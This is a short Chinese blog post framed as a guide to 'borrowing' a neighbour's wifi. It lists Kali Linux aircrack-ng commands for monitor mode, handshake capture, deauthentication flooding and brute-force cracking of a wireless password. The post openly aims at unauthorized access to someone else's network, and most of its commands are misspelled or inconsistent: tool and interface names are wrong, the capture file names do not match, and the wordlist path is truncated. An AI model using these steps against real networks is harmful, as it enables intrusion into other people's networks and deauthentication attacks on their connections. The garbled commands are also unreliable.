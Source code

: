 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>
5. 查找无线网络：airodump-ng eth0
6. 网络抓包：airodump-ng -w vutfile -c 1 —bssid MacAddress eth0

7. ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

8. 暴力破解：aircrack-ng outfile1.cap -w /